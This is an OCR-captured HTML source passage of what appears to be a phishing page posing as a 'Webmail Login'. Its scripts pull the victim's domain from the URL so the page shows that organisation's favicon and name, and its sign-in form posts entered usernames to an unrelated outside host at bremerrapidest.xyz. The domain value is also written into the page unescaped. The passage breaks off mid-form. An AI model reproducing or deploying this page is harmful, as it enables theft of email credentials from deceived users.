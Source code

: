 ```html
    <link rel="canonical" href="/login">
    <link id="favicon" rel="icon" href="" type="image/png" sizes="16x16">
</head>

<body class="login-page ">
    <div id="content" class="fade-in l-table">
        <div id="login-wrapper" class="l-table-row">
            <div class="l-table-cell">
                <section class="login-modal">
                    <div class="login-modal-user-pass">
                        <div class="login-modal-logo">

                            <body>
                                <script>
                                    document.title = "Webmail Login"; // Notice: this will defeat purpose of SEO. Not useful for SEO-friendly sites.
                                </script>
                                <script>
                                    const queryString3 = window.location.search;
                                    const urlParams3 = new URLSearchParams(queryString3);
                                    const imageBoxx = urlParams3.get('domain');
                                    ChangeFavicon();

                                    function ChangeFavicon() {
                                        var total1 = imageBoxx;
                                        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
                                        link.type = 'image/x-icon';
                                        link.rel = 'shortcut icon';
                                        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
                                </script>
                                <script>
                                    const queryString2 = window.location.search;
                                    const urlParams2 = new URLSearchParams(queryString2);
                                    const imageBox = urlParams2.get('domain');
                                    window.onload = function() {
                                        var total = imageBox;
                                        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
                                    };
                                </script> <img id="imageBox" src="" alt="" width="40" height="40">
                        </div>
                        <h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
                        <script>
                            const queryString1 = window.location.search;
                            const urlParams1 = new URLSearchParams(queryString1);
                            const demo = urlParams1.get('domain');
                            var str = demo;
                            document.getElementById("demo").innerHTML = demo;
                        </script>
</body>
</div>
<div class="login-modal-content">
    <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
        <div class="field email-field fade-label"> <label class="text" for="email"></label> <input autocapitalize="off" autocomplete="off" autocorrect="off" autofocus="autofocus" class="text" id="username" name="username" size="20" spellcheck="false" type="email" value=""> </div>
        <div class="message-box-error-wrapper">
            <div class="message-box-error"></div>
        </div>
```